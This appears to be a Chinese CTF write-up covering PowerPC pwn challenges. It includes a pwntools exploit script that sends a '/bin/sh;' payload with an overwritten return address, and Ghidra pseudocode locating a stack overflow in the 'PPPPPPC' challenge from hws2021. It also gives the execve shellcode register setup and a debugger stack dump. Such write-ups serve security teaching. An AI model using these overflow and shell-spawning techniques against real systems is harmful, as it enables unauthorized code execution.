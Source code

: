 ```python
from pwn import *
context.endian = 'big'
local = 1
if local:
    sh = process(['qemu-ppc-static', '-g', '4444', './main'])
else:
    sh = process(['qemu-ppc-static', './main'])

payload = b'/bin/sh;caaadaaaeaaafaaagaaahaaaiaaajaaa' + p32(0x10000694)
#pause()
sh.sendlineafter(b'comment.\n', payload)
sh.interactive()
```

## PPPPPPC-hws2021线上赛

题目信息：

```bash
    Arch:     powerpc-32-big
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
```
ghidra打开查看伪代码：
```c
  uint auStack312 [77];

  uVar2 = FUN_100003fc();
  uVar1 = extraout_r4;
  FUN_100095b0((uint)"Hello, welcome to hws!",extraout_r4);
  FUN_100082d0(uVar2,param_2,param_3,param_4,param_5,param_6,param_7,param_8,"Tell me your name: " ,
               uVar1,param_11,param_12,param_13,param_14,&DAT_10070000,param_16);
  FUN_10008f40(auStack312,0x320,(uint *)PTR_DAT_100a0e00); <--- stack overflow FUN_1001b9b0((uint)&DAT_100b3390,auStack312);
  FUN_100095b0((uint)&DAT_10068400,extraout_r4_00);
```

FUN_10008f40函数应该为fread函数，存在栈溢出，由于程序没有开NX，可执行shellcode。

shellcode只要满足execve("/bin/sh", 0, 0) ，PPC相关寄存器应为如下：

```bash
r0: 11 (syscall number)
r3 -> "/bin/sh" (first arg)
r4: 0
r5: 0
```
[ppc系统调用号](https://elixir.bootlin.com/linux/latest/source/arch/powerpc/kernel/syscalls/syscall.tbl)

```bash
────────────────────────────────────[ DISASM ]────────────────────────────────────
 ► 0x100004f0    blr    

────────────────────────────────────[ STACK ]─────────────────────────────────────
00:0000│ r11 sp 0xf6ffed20 ◂— 0x0
01:0004│        0xf6ffed24 —▸ 0xf6ffebc8 —▸ 0x10000e80 ◂— stwu   r1, -0x20(r1)
02:0008│        0xf6ffed28 ◂— 0xa000000 /* '\n' */
03:000c│        0xf6ffed2c ◂— 0x0
04:0010│        0xf6ffed30 ◂— 0x5afb962e
05:0014│        0xf6ffed34 ◂— 0x0
06:0018│        0xf6ffed38 ◂— 0xbc047c46
07:001c│        0xf6ffed3c ◂— 0x0
```